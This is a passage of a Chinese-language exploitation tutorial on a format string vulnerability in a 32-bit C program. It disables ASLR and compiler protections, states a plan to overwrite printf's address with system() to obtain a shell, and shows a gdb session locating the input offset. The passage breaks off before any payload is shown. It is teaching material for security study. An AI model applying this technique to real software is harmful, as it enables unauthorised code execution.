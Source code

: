 为了简单一点，我们关闭 ASLR，并使用下面的命令编译，关闭 PIE，使得程序的 .text .bss 等段的内存地址固定：

```text
# echo 0 > /proc/sys/kernel/randomize_va_space
$ gcc -m32 -fno-stack-protector -no-pie fmt.c
```

很明显，程序存在格式化字符串漏洞，我们的思路是将 `printf()` 函数的地址改成 `system()` 函数的地址，这样当我们再次输入 `/bin/sh` 时，就可以获得 shell 了。

第一步先计算偏移，虽然 pwntools 中可以很方便地构造出 exp，但这里，我们还是先演示手工方法怎么做，最后再用 pwntools 的方法。在 gdb 中，先在 `main` 处下断点，运行程序，这时 libc 已经被加载进来了。我们输入 "AAAA" 试一下：

```text
gdb-peda$ b main
...
gdb-peda$ r
...
gdb-peda$ n
[----------------------------------registers-----------------------------------]
EAX: 0xffffd1f0 ("AAAA\n")
EBX: 0x804a000 --> 0x8049f10 --> 0x1
ECX: 0xffffd1f0 ("AAAA\n")
EDX: 0x400
ESI: 0xf7f97000 --> 0x1bbd90
EDI: 0x0
EBP: 0xffffd5f8 --> 0x0
ESP: 0xffffd1e0 --> 0xffffd1f0 ("AAAA\n")
EIP: 0x8048512 (<main+92>:      call   0x8048370 <printf@plt>)
EFLAGS: 0x296 (carry PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048508 <main+82>: sub    esp,0xc
   0x804850b <main+85>: lea    eax,[ebp-0x408]
   0x8048511 <main+91>: push   eax
=> 0x8048512 <main+92>: call   0x8048370 <printf@plt>
   0x8048517 <main+97>: add    esp,0x10
   0x804851a <main+100>:        mov    eax,DWORD PTR [ebx-0x4]
   0x8048520 <main+106>:        mov    eax,DWORD PTR [eax]
   0x8048522 <main+108>:        sub    esp,0xc
Guessed arguments:
arg[0]: 0xffffd1f0 ("AAAA\n")
[------------------------------------stack-------------------------------------]
0000| 0xffffd1e0 --> 0xffffd1f0 ("AAAA\n")
0004| 0xffffd1e4 --> 0xffffd1f0 ("AAAA\n")
0008| 0xffffd1e8 --> 0x400
0012| 0xffffd1ec --> 0x80484d0 (<main+26>:      add    ebx,0x1b30)
0016| 0xffffd1f0 ("AAAA\n")
0020| 0xffffd1f4 --> 0xa ('\n')
0024| 0xffffd1f8 --> 0x0
0028| 0xffffd1fc --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x08048512 in main ()
```
